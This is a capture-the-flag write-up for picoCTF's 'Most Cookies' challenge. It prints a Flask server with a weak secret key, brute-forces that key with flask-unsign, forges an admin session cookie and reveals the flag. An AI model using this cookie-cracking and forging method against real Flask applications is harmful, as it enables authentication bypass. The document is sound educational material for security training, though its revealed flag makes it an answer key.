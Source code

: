 # Most Cookies
## Description
Alright, enough of using my own encryption. Flask session cookies should be plenty secure! [server.py](https://mercury.picoctf.net/static/99a50920a248ec37c39b8e3ab0af8789/server.py) http://mercury.picoctf.net:18835/
## Hint
How secure is a flask cookie?
## Solution
- `server.py` contains the following code
```python
from flask import Flask, render_template, request, url_for, redirect, make_response, flash, session
import random
app = Flask(__name__)
flag_value = open("./flag").read().rstrip()
title = "Most Cookies"
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)

@app.route("/")
def main():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "blank":
			return render_template("index.html", title=title)
		else:
			return make_response(redirect("/display"))
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

@app.route("/search", methods=["GET", "POST"])
def search():
	if "name" in request.form and request.form["name"] in cookie_names:
		resp = make_response(redirect("/display"))
		session["very_auth"] = request.form["name"]
		return resp
	else:
		message = "That doesn't appear to be a valid cookie."
		category = "danger"
		flash(message, category)
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

@app.route("/reset")
def reset():
	resp = make_response(redirect("/"))
	session.pop("very_auth", None)
	return resp

@app.route("/display", methods=["GET"])
def flag():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "admin":
			resp = make_response(render_template("flag.html", value=flag_value, title=title))
			return resp
		flash("That is a cookie! Not very special though...", "success")
		return render_template("not-flag.html", title=title, cookie_name=session["very_auth"])
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

if __name__ == "__main__":
	app.run()
```
- The site has the text `Welcome to my cookie search page. Now with the best security!` with a text box to enter a cookie name and a search button
- Entering a random cookie name and clicking on the search button will display the text `That doesn't appear to be a valid cookie.`
- Entering a cookie name from the list of `cookie_names` and clicking on the search button will redirect to the `/display` page and display the flash text `That is a cookie! Not very special though...` with the text `I love [entered cookie] cookies!` where `[entered cookie]` is the cookie name entered in the text box
- There's also a Reset button present.
- I looked up solutions online as I didn't have a lot of knowledge on cookies.
- Right clicking on the page and selecting `Inspect` and then going to the `Application` tab and then selecting `Cookies` on the left side will show the cookies present on the site
- The session cookie was `eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.Zy4cwg.bCLHMF5teikBJ06yNNt-_Jbaxss` which seemed to be a JWT token
- I decoded the token using [jwt.io](https://jwt.io/) and got the following in the `HEADER:ALGORITHM & TOKEN TYPE` section
```json
{
  "very_auth": "blank"
}
```
- this snippet of the python code in `server.py` suggests that the `very_auth` cookie should be set to `admin` to get the flag
```python
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "admin":
			resp = make_response(render_template("flag.html", value=flag_value, title=title))
			return resp
```
- but we also need to figure out the secret key to sign the JWT token
- I looked up the `app.secret_key` variable in the code and found that it was set to a random cookie name from the `cookie_names` list
- i came across a tool called `flask-unsign` which can be used to unsign the JWT token
- I installed the tool using `pip3 install flask-unsign`
- ran `flask-unsign -h` to get the help menu
- here's a snippet of what it contained
```
usage: flask-unsign [-h] [-d] [-u] [-s] [-l] [-c [COOKIE]] [--secret SECRET] [--salt SALT] [--wordlist WORDLIST]
                    [--threads THREADS] [--no-literal-eval] [--server SERVER] [--insecure] [-o OUTPUT] [-p PROXY]
                    [--cookie-name COOKIE_NAME] [-U USER_AGENT] [-q] [-C CHUNK_SIZE] [-v]

Flask Unsign is a penetration testing utility that attempts to uncover a Flask server's secret key by taking a signed session
verifying it against a wordlist of commonly used and publicly known secret keys (sourced from books, GitHub, StackOverflow
and various other sources). To begin, use one of the following arguments: --unsign, --sign, --decode

options:
  -h, --help
       Show this help message and exit

  -d, --decode
       Only decode the sessions's contents and write them to stdout.

  -u, --unsign
       Attempts to crack the session's signature by iterating over a given wordlist with commonly used .

  -s, --sign
       Sign a session with a specified secret key, often used for session manipulation. Requires the '--secret' argument.

  -l, --legacy
       Generate / verify signatures using itsdangerous'es legacy timestamp generator. Note: All installations of flask before
       2018-10-18 use this form of timestamp and all generated signatures will be regarded as expired (meaning you will not
       be able to brute-force the secret key nor forge any sessions).

  -c [COOKIE], --cookie [COOKIE]
       Session cookie string. If you're decoding/cracking a session key thiscan be obtained by manually inspecting an HTTP
       request and extracting the value of the "session" cookie. If you're signing a cookie, this can be any arbitrary Python
       dictionary with data (or other data type, whatever floats your boat, but don't expect the server to understand it). If
       no argument is provided, the program will attempt to read from stdin. Note: When signing data, this will ALWAYS be
       evaluated.

  --secret SECRET, -S SECRET
       Secret key to sign a new session cookie with. Generally obtained by brute-forcing a known session using "--unsign".
       Note: this argument is affected by the "--no-literal-eval" argument.

  --salt SALT
       Custom salt string, this will not be changed in most instances of Flask. But hey, if you need to change it, you can!
       Note: this argument is affected by the "--no-literal-eval" argument.

  --wordlist WORDLIST, -w WORDLIST
       Note: this argument is affected by the "--no-literal-eval" argument.
```
- made the following `wordlist.txt` file from the `cookie_names` list
```
snickerdoodle
chocolate chip
oatmeal raisin
gingersnap
shortbread
peanut butter
whoopie pie
sugar
molasses
kiss
biscotti
butter
spritz
snowball
drop
thumbprint
pinwheel
wafer
macaroon
fortune
crinkle
icebox
gingerbread
tassie
lebkuchen
macaron
black and white
white chocolate macadamia
```
- ran the command `flask-unsign -u --server http://mercury.picoctf.net:18835/ --wordlist wordlist.txt` to get the secret key
```
[*] Server returned HTTP 302 (FOUND)
[+] Successfully obtained session cookie: eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.Zy5C5w.FVbpa6J1z2fo2gE0K8dhvUk-xWk
[*] Session decodes to: {'very_auth': 'blank'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attemptscadamia
'fortune'
```
- ran the command `flask-unsign -s -c "{'very_auth': 'admin'}" -S fortune` to sign the JWT token with the secret key `fortune` and got the following output: `eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Zy5FXQ.bd7Wts7C9sHMK-Xij-ZQmJ6kEAE`
- set the session cookie to `eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Zy5FXQ.bd7Wts7C9sHMK-Xij-ZQmJ6kEAE` and refreshed the page.
- got the flag `picoCTF{pwn_4ll_th3_cook1E5_743c20eb}`
